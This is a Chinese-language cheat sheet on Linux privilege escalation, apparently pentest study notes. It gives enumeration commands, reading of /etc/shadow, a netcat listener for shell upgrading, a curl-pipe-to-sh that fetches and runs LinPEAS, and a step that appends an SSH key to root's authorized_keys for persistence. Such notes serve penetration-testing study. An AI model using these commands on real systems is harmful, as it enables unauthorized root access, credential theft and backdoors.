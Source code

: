 # Linux提权小记

## 运行 Linpeas 脚本以枚举远程服务器

```
    ./linpeas.sh
```

## 切换完整 Bash

```
python3 -c 'import pty;pty.spawn("/bin/bash");'

CTRL + Z
stty raw -echo
fg
export TERM=xterm-color

OR

rlwrap nc -lvnp <port>
```

## 手工枚举

```
id：显示当前⽤户的 UID（⽤户 ID）、GID（组 ID）以及所属的其他组的信息
who：显示当前登录的⽤户及相关信息，如登录时间、终端等
whoami：显示当前⽤户的⽤户名
w：提供关于当前登录⽤户的详细信息，包括他们在做什么以及系统的负载信息
last:：显示系统最近的登录记录
```


```
uname -a：为我们提供关于系统使⽤的内核的附加详细信息。在寻找可能导致提权的任何潜在内核漏洞时，这将⾮常有⽤
lsb_release -a：这个命令⽤于显示Linux标准基础（LSB）的发⾏信息。 -a 选项表示显示所有
可⽤信息。它将显示诸如发⾏编号、发⾏名称、发⾏描述等信息
cat /proc/version ：这个命令⽤于显示内核版本和编译信息。 /proc/version ⽂件包含了内核
版本、编译器版本和其他相关信息。要查看是否安装了GCC就可以⽤这条命令
cat /etc/issue：这个命令⽤于查看系统的发⾏版本信息。 /etc/issue ⽂件包含了操作系统发⾏版的名称和版本
cat /etc/*-release：这个命令⽤于查看系统发⾏版的详细信息。它会搜索 /etc/ ⽬录下所有以
-release 结尾的⽂件，并显示它们的内容。这些⽂件通常包含操作系统的发⾏名称、版本、代号等信息
```


```
ip a:旧版命令ifconfig,这些命令为我们提供有关⽹卡、⽹络配置的信息。多张⽹卡配合路由信息可以发现内⽹⽹段
ip route：⽤于查询路由表，route是过时的命令
ip neigh：⽤于查询邻居表
arp -a：则⽤于显示ARP缓存，有些⼈⽤它作内⽹主机发现
```


```
hostname:查看机器主机名，新版内核linux可以用hostnamectl
```


```
getcap -r / 2>/dev/null:关于Linux capabilities ，它为进程提供了⼀部分可⽤的 root 权限
⼦集。有效地将 root 权限划分成较⼩且独特的单元。然后，可以独⽴地将这些单元授予进程。这样，权限集合就会减少，降低了被利⽤的⻛险
```


```
ls -liah:列出详细隐藏信息
history:历史记录
```


```
cat /etc/passwd
cat /etc/shadow
cat /etc/crontab:自动任务
echo $PATH
env:环境变量
ps -ef:查看进程
ps axjf ：查看进程树
```


```
netstat -a ：显示所有正在监听的端⼝和已建⽴的连接。
netstat -at 或 netstat -au 也可⽤于分别列出TCP或UDP协议。
netstat -l ：列出处于“监听”模式的端⼝。这些端⼝是打开的，并准备接受传⼊的连接。
可以将其与“t”选项⼀起使⽤，仅列出使⽤TCP协议监听的端⼝
netstat -s ：按协议列出⽹络使⽤统计数据（如下所示）也可以与 -t 或 -u 选项⼀起使⽤以限制
输出到特定协议
netstat -tp ：列出服务名称和PID信息的连接。
netstat -i ：显示接⼝统计信息。我们在下⾯看到“eth0”和“tun0”⽐“tun1”更活跃
```


```
find / -perm -u=s -type f 2>/dev/null ：查找设置了SUID位的⽂件，这使我们可以以⽐当前⽤
户更⾼的特权级别运⾏⽂件
```


```
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp tmux
screen 2>/dev/nul
```
![[Pasted image 20250504164902.png]]

```
cat /etc/fstab:检测未挂载的⽂件系统
```




## 自动化枚举

### LinPEAS

全称为 Linux Privilege Escalation Awesome Script ，是⼀个⽤来搜索类 unix 主机上可能
的提权路径的⾃动化脚本。

Github：https://github.com/peass-ng/PEASS-ng

```
curl -L https://github.com/carlospolop/PEASSng/releases/latest/download/linpeas.sh | sh
```

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

### LinEnum

⼀个流⾏的 Linux 本地枚举脚本，⽤于收集有关系统的各种信息，识别不安全的配置，
提取可⽤于提升权限的漏洞信息

Github：https://github.com/rebootuser/LinEnum

### linux-smart-enumeration （lse）

这是⼀个具有模块化功能的 Linux 本地枚举脚本它可在不同的等级上运⾏以获取不同详细程度的信息

Github：https://github.com/diego-treitos/linux-smart-enumeration

### linux-exploit-suggester

该⼯具主要⽤于识别 Linux 系统中可能存在的可利⽤的漏洞，
以帮助⽤户提升权限。

Github：https://github.com/The-Z-Labs/linux-exploit-suggester

### Linuxprivchecker

⼀个⽤于检查 Linux 系统潜在安全问题的 Python 脚本，
包括⽂件权限、系统服务和 SUID ⼆进制⽂件等。 

Github：https://github.com/sleventyeleven/linuxprivchecker

### unix-privesc-check

这个脚本主要⽤于识别 类UNIX 系统中可能的权限升级路径，
通过检查⽂件权限、系统配置等⽅⾯的问题

Github：https://github.com/pentestmonkey/unix-privesc-check


## 非对称加密

-  创建新的SSH密钥

```
    ssh-keygen -f key
```

-  将生成的公钥添加到用户

```
    echo "ssh-rsa AAAAB...SNIP...M= enil@aaa">> /root/.ssh/authorized_keys
```
-  使用生成的私钥SSH连接到服务器

```
    ssh root@10.10.10.10 -i key
```
-  枚举脚本

```
	PEASS
```


